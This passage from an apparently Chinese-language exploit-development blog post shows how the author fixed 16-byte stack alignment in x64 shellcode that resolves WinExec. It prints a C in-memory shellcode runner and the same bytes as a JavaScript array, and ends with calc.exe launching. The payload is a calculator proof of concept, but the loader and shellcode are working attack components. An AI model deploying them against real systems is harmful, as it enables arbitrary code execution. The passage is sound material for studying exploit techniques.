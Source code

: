 但是这个目的地址是可以访问的，这是什么新型攻击手法？仔细看下发现是因为 movqs 是一条 SIMD 指令，要求操作数的地址 16 字节对齐。

修改 shellcode 的源码，确保调用 `WinExec` 之前 rsp 是 16 字节对齐的：

```c
// runShellcode.c
// C Shellcode Run Code referenced from reenz0h (twitter: @sektor7net)
#include <windows.h>
void main() {
  void* exec;
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;
  // Shellcode
  unsigned char payload[] =
    "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
    "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
    "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
    "\x48\x83\xec\x30\x66\x81\xe4\xf0\xff\x41\xff\xd6";

  unsigned int payload_len = 205;
  exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  RtlMoveMemory(exec, payload, payload_len);
  rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
  th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

```javascript
shellcode_src = new Uint8Array([0xcc,
 0x48, 0x31, 0xFF, 0x48, 0xF7, 0xE7, 0x65, 0x48, 0x8B, 0x58,
  0x60, 0x48, 0x8B, 0x5B, 0x18, 0x48, 0x8B, 0x5B, 0x20, 0x48,
  0x8B, 0x1B, 0x48, 0x8B, 0x1B, 0x48, 0x8B, 0x5B, 0x20, 0x49,
  0x89, 0xD8, 0x8B, 0x5B, 0x3C, 0x4C, 0x01, 0xC3, 0x48, 0x31,
  0xC9, 0x66, 0x81, 0xC1, 0xFF, 0x88, 0x48, 0xC1, 0xE9, 0x08,
  0x8B, 0x14, 0x0B, 0x4C, 0x01, 0xC2, 0x4D, 0x31, 0xD2, 0x44,
  0x8B, 0x52, 0x1C, 0x4D, 0x01, 0xC2, 0x4D, 0x31, 0xDB, 0x44,
  0x8B, 0x5A, 0x20, 0x4D, 0x01, 0xC3, 0x4D, 0x31, 0xE4, 0x44,
  0x8B, 0x62, 0x24, 0x4D, 0x01, 0xC4, 0xEB, 0x32, 0x5B, 0x59,
  0x48, 0x31, 0xC0, 0x48, 0x89, 0xE2, 0x51, 0x48, 0x8B, 0x0C,
  0x24, 0x48, 0x31, 0xFF, 0x41, 0x8B, 0x3C, 0x83, 0x4C, 0x01,
  0xC7, 0x48, 0x89, 0xD6, 0xF3, 0xA6, 0x74, 0x05, 0x48, 0xFF,
  0xC0, 0xEB, 0xE6, 0x59, 0x66, 0x41, 0x8B, 0x04, 0x44, 0x41,
  0x8B, 0x04, 0x82, 0x4C, 0x01, 0xC0, 0x53, 0xC3, 0x48, 0x31,
  0xC9, 0x80, 0xC1, 0x07, 0x48, 0xB8, 0x0F, 0xA8, 0x96, 0x91,
  0xBA, 0x87, 0x9A, 0x9C, 0x48, 0xF7, 0xD0, 0x48, 0xC1, 0xE8,
  0x08, 0x50, 0x51, 0xE8, 0xB0, 0xFF, 0xFF, 0xFF, 0x49, 0x89,
  0xC6, 0x48, 0x31, 0xC9, 0x48, 0xF7, 0xE1, 0x50, 0x48, 0xB8,
  0x9C, 0x9E, 0x93, 0x9C, 0xD1, 0x9A, 0x87, 0x9A, 0x48, 0xF7,
  0xD0, 0x50, 0x48, 0x89, 0xE1, 0x48, 0xFF, 0xC2, 0x48, 0x83,
  0xEC, 0x30, 0x66, 0x81, 0xE4, 0xF0, 0xFF, 0x41, 0xFF, 0xD6]);
```

改完以后终于看到了计算器。🎉
